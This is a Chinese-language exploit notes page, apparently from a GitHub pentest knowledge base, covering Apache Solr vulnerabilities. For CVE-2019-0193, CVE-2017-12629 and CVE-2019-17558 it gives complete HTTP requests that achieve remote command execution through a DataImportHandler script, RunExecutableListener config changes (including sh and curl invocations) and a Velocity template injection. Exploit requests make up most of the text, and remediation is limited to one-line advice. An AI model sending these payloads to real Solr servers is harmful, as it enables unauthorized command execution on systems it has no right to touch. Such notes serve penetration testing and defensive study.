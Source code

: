 ```yaml
---
title: Apache-Solr
---
```


## 应用简介
Apache Solr 是一个开源的搜索服务器。
Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。

## [CVE-2019-0193]-RCE

**漏洞概述**

```http
#影响范围
Solr < 8.2.0
```

此次漏洞出现在Apache Solr的DataImportHandler，该模块是一个可选但常用的模块，用于从数据库和其他源中提取数据。

它具有一个功能，其中所有的DIH配置都可以通过外部请求的dataConfig参数来设置。

由于DIH配置可以包含脚本，因此攻击者可以通过构造危险的请求，从而造成远程命令执行

**漏洞利用**

1、访问`http://ip:8983/`Apache solr的管理页面，无需登录（默认未开启鉴权认证）

```http
POST /solr/tika/dataimport HTTP/1.1
Host: solr.com:8983
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://solr.com:8983/solr/
Content-type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 585
Connection: close

command=full-import&verbose=false&clean=false&commit=false&debug=true&core=tika&name=dataimport&dataConfig=
<dataConfig>
  <dataSource type="URLDataSource"/>
  <script><![CDATA[
          function poc(){ java.lang.Runtime.getRuntime().exec("echo '666' > ./666.txt");
          }
  ]]></script>
  <document>
    <entity name="stackoverflow"
            url="https://stackoverflow.com/feeds/tag/solr"
            processor="XPathEntityProcessor"
            forEach="/feed"
            transformer="script:poc" />
  </document>
</dataConfig>
```

**漏洞分析**

https://xz.aliyun.com/t/5965#toc-6

## [CVE-2017-12629]-RCE

**漏洞概述**

```http
#影响范围
Solr < 7.1.0
```



**漏洞利用**

1、访问`http://ip:8983/`Apache solr的管理页面，无需登录（默认未开启鉴权认证）

2、首先创建一个listener，其中设置exe的值为我们想执行的命令，args的值是命令参数

```http
POST /solr/demo/config HTTP/1.1
Host: your-ip
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 158

{"add-listener":{"event":"postCommit","name":"newlistener","class":"solr.RunExecutableListener","exe":"sh","dir":"/bin/","args":["-c", "touch /tmp/success"]}}
```

3、然后进行update操作，触发刚才添加的listener

```http
POST /solr/demo/update HTTP/1.1
Host: your-ip
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 15

[{"id":"test"}]
```

第二种：直接触发RCE

```http
POST /solr/newcollection/config HTTP/1.1
Host: localhost:8983
Connection: close
Content-Type: application/json  
Content-Length: 198

{
  "add-listener" : {
    "event":"newSearcher",
    "name":"newlistener-1",
    "class":"solr.RunExecutableListener",
    "exe":"curl",
    "dir":"/usr/bin/",
    "args":["http://127.0.0.1:8080"]
  }
}
```

## [CVE-2018-8026]-XXE

**漏洞概述**

```http
#影响范围
6.6.4
7.3.1
```

该XXE漏洞依赖于SolrCloud API，影响到SolrCloud分布式系统。而SolrCloud需要用到zookeeper

**漏洞利用**

参考下边漏洞分析链接中的漏洞复现部分

**修复建议**

升级补丁

**漏洞分析**

https://xz.aliyun.com/t/2448#toc-7

## [CVE-2019-17558]-模板注入

**漏洞概述**

```http
#影响范围
5.0.0 ~ 8.3.1版本
```

攻击者通过未授权访问solr服务器，可以注入自定义模板，通过Velocity模板语言执行任意命令

发送特定的数据包开启 `params.resource.loader.enabled`，然后get访问接口执行命令

**漏洞利用**

1、默认情况下`params.resource.loader.enabled`配置未打开，无法使用自定义模板

我们先通过如下API获取所有的核心：

```http
http://your-ip:8983/solr/admin/cores?indexInfo=false&wt=json
```

2、通过如下请求开启`params.resource.loader.enabled`，其中API路径包含刚才获取的core名称

```http
POST /solr/demo/config HTTP/1.1
Host: solr:8983
Content-Type: application/json
Content-Length: 259

{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}
```

3、之后，注入Velocity模板即可执行任意命令

```http
http://your-ip:8983/solr/demo/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end
```

**修复建议**

设置鉴权（暂时修复）

**漏洞分析**

https://xz.aliyun.com/t/6700#toc-4